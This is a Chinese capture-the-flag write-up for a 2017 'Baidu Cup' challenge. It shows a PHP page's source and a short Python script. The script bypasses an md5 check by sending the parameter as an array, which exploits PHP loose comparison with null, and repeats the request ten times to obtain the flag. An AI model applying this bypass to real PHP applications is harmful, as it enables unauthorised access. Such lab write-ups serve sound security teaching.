

# 题目名称

## 题目描述
---
```
这个真的是爆破。

```

## 题目来源
---
“百度杯”CTF比赛 2017 二月场

## 主要知识点
---


## 题目分值
---
10

## 部署方式
---


## 解题思路
---

打开题目给出了源码 

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

将url中的value参数改成`value[]`数组即`?value[]=ea`，比如回显出来的两个字母为hl，再输入`?value[]=hl`，以此类推十遍，因为md5加密一个数组值为`null`，而null==0，这样可以绕过`substr(md5($value),5,4)==0)`判断，用python脚本如下：

```python
import requests
url='http://***.changame.ichunqiu.com/'
session=requests.Session()
html=session.get(url+'?value[]=ea').text
for i in range(10):
    html=session.get(url+'?value[]='+html[0:2]).text
    if 'flag{.*}' in html:
        break
print (html)
```



## 参考
---
